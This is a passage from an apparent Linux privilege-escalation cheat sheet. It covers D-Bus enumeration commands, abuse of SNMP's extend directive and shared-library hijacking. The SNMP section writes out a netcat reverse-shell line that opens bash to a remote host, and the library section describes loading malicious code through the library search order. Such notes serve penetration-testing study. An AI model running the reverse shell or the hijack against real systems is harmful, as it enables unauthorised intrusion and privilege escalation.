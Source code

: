 Note that **=ep** is equal to ALL the capabilites permitted (p) and effective (e) from the start.

### D-Bus Enumeration

**D-Bus** is an IPC mechanism initially designed to replace the software component communications systems used by the GNOME and KDE Linux desktop environments.

Each service is defined by the **objects** and **interfaces** that it exposes.

We can think of objects as instances of classes in standard OOP languages.

```bash
busctl list # List D-Bus interfaces
busctl status INTERFACE
busctl tree INTERFACE # Get Interfaces of the service object
busctl introspect INTERFACE SERVICE_OBJECT # Get methods of the interface
```

### SNMP

If you have a SNMP community with write permissions we can archive code execution by abusing the **NET-SNMP-EXTEND-MIB extension**

The Net-SNMP Agent provides an extension MIB (NET-SNMP-EXTEND-MIB) that **can be used to query arbitrary shell scripts**. To specify the shell script to run, use the extend directive in the /etc/snmp/snmpd.conf file. Once defined, the Agent will provide the exit code and any output of the command over SNMP.

In order to **extend** you in order to get a remote shell, you need to add the following to the /etc/snmp/snmpd.conf file:
extend shell /bin/nc 192.168.0.1 4444 -e /bin/bash

### Shared library

A **shared library** or **shared object** is a file that is intended to be **shared** by executable files and further shared object files.

Linux shared libraries combined with weak file permissions can be used to execute arbitrary code and compromise Linux system.

Within Linux, here below is the order where the O.S. searches for librairies:

1. Any directories specified by rpath-link options (directories specified by rpath-link options are only effective at link time)
2. Any directories specified by –rpath options (directories specified by rpath options are included in the executable and used at runtime)
3. LD_RUN_PATH
4. LD_LIBRARY_PATH
5. Directories in the DT_RUNPATH or DT_RPATH. (DT_RPATH entries are ignored if DT_RUNPATH entries exist)
6. /lib and /usr/lib
7. Directories within /etc/ld.so.conf

If we can replace a shared library with a malicious one, thenwhen the application runs, it will load the malicious code and run it with the executing owner’s permissions.

Here below is a nice diagram from [contextis.com](https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library) which shows how to test that
